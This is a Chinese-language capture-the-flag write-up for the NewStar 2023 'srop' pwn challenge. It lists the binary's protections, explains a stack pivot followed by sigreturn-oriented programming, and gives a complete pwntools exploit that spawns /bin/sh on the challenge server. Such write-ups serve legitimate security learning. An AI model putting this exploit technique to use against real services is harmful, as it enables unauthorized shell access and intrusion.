 ```yaml
---
title: newstar2023 week3 - srop
date: 2023/10/13 12:00:00
tags:
    - srop
---
```


## 文件分析

NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

思路和上一题类似，先进行栈迁移，方便控制地址，然后srop

这题没有syscall，只有syscall函数，所以要注意rsp+8要可用；并且rdi是rax等

srop可以用pwntools里的工具快速生成，主要是要多次利用sigreturn改变rip，
从而控制程序走向，具体的流程可以在ctf-wiki中学习

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 26073)
elf = ELF('srop')

syscall = elf.plt['syscall'] # here syscall is a libc function
main = elf.symbols['main']
popRdiAddr = 0x401203
retAddr = 0x401144
bssHigh = 0x404800

# payload 1, stack pivot to bss and read again
sh.send(b'0'*0x30 + p64(bssHigh) + p64(0x401171) + b'0'*(0x300-0x40))
sh.recv(0x30) # skip all write content

context.arch = 'amd64'
shellFrame = SigreturnFrame()
shellFrame.rdi = constants.SYS_execve
shellFrame.rsi = bssHigh - 0x30 # /bin/sh addr
shellFrame.rdx = 0
shellFrame.rcx = 0
shellFrame.rsp = bssHigh
shellFrame.rip = syscall

# payload 2, write /bin/sh to bss and invoke sigreturn to do execve
sh.sendline(b'/bin/sh\0' + b'0'*0x30 + p64(popRdiAddr) + p64(15) + p64(syscall) + bytes(shellFrame))
sh.interactive()
```

Done.
